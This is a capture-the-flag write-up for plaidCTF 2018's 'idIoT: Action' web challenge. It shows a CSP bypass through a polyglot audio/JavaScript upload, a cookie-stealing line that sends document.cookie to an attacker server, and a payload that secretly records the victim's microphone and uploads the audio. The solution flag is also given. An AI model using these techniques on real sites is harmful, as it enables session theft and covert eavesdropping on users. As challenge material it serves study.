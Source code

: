 # idIoT: Action
*plaidCTF 2018 Web 200*


## Problem

Some people won't let any smart devices in their home at all. Some are cautious, do their research, and make an informed decision. This guy falls in neither category; he's a a downright idIoT. 

The idIoT uses this service called [clipshare](https://idiot.chal.pwning.xxx/); you can find his account [here](https://idiot.chal.pwning.xxx/user.php?id=3427e48e-a6eb-4323-aed4-3ce4a83d4f46) or here after you make an account. 

He was telling me the other day about how he has a Google Home next to his computer running at all times. He also told me that if you ask politely it will tell you the flag. However, while he'll look at anything you share, he closes it almost immediately if he doesn't seem like it'll interest him. Maybe we can look at his clips to find something to match his interests? 

(Flag format: PCTF{xxx} where xxx is some text composed of lower-case letters and underscores)

## Look up
We can write a new clip with title, description and audio. Audio can be uploaded, or can be recorded using our browser. After some simpletest, we can find 'Description' field allows us `HTML Tag Injection`, but not `<script>` becuase of its CSP.

![Tag injected](https://i.imgur.com/F4fv0PF.png)
![CSP](https://i.imgur.com/hvCZdyr.png)

Since CSP exists `script-src 'self'`, XSS shoud be able by uploading some scripts into clip and including it.

## Weak audio check and MIME type

Server refuses the file when its extension is not ended with `.wav/.wave/.mp3/.ogg/.web`. But it doesn't seems strictly check it. We can upload some corrupted audio files like this one!
![Is this real wav?](https://i.imgur.com/15mYPVI.png)

It considered as normal wave file becuase of its magic number, but it also can be translated as following javascript.

```javascript
RIFF=1;
alert('test');
```

I've tried script injection with .wav and .mp3 files, but both of them didn't work. It couldn't pass the MIME type check. ![mpeg MIME is not executable](https://i.imgur.com/5wBeF6O.png)

After searching about it, I found a document that lists [default apache MIME types](https://svn.apache.org/repos/asf/httpd/httpd/trunk/docs/conf/mime.types)
![Where is .wave??](https://i.imgur.com/c5X5Dup.png)

We can see apache doesn't recognize `.wave` extension as `audio/*`, thus including `.wave` file like following may allow to execute scripts.

```html
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

## Get a flag
Two steps are required to get a flag.

* Show admin's clips
* Record a response of Google Home.  

### Show clips of admin
Since we know how to execute javascript, stealing is easy. There are various ways to steal admin's clip.

```javascript
location.href = <your server> + "?ck=" + "document.cookie"
```

After we change our session to admin's session, we can see two clips.

First clip is

	Title; Thoughts on Google Home
	
	I got a Google Home recently, and I've been having a lot of fun with it!
		
and next one is
 
	Title; Nostalgia
	
	Has anyone else played Toaster Wars?
	Share me clips with 'spatulate' in the description and I'll give them a listen!
	
By attached audio of first clip, if we say "Hey Google, what is a flag?" to Google Home, it will answer the flag. So the next thing to do is asking "Hey Google, what is a flag?" using audio upload and writing a description as 'spatulate'. Then bot will listen our question, and Google Home will answer the flag.

### Record from admin's account
We already get a flag. But it has a problem. We know Google Home **speaks** the flag, then how can we get it? `js/main.js` has the answer. `main.js` has implementations to deal with this problem. 

![record, submit](https://i.imgur.com/if9YeMI.png)

If we reconstruct javascripts using those implementations of record and submit features, we can write a new clip! But admin's account can't write a new clip, so we have to write it to our own account by chainging session.

So final payload is

Description field:

```html
spatulate
<form action="create.php" method="post" enctype="multipart/form-data" id="upload-form">
	<input type="text" name="title" value="answer"/>
	<input type="text" name="description" value="answer"/>
	<audio id="record-playback" controls></audio>
	<input type="submit" name="submit" value="submit" />
</form>
<script src="uploads/upload_5aeea228222b70.00604196.wave"></script>
```

Script in .wave:

```javascript
navigator.mediaDevices.getUserMedia({ audio: true })
	.then((stream) => {
	mediaRecorder = new MediaRecorder(stream, { mimeType: 'audio/webm' });
	mediaRecorder.start();
	let chunks = [];
	mediaRecorder.addEventListener("dataavailable", (e) => {th
		chunks.push(e.data);
		console.log(e.data);
	});
	mediaRecorder.addEventListener("stop", () => {
		mediaBlob = new Blob(chunks);
		document.cookie = "PHPSESSID=<YOUR PHP SESSION ID>";
	
		let uploadForm = document.getElementById("upload-form");
		let formData = new FormData(uploadForm);
	   	formData.append("audiofile", mediaBlob, "audio.webm");
	   	let f = fetch("create.php", {
			method: "POST",
			body: formData,
			credentials: "same-origin"
		});	
	})
	setTimeout(function() {
		mediaRecorder.stop();
	}, 15000);
});
```	

### Answer
Injected script will write a new clip named 'answer' with an audio reading flag :D

The flag is `PCTF{not_so_smart}`
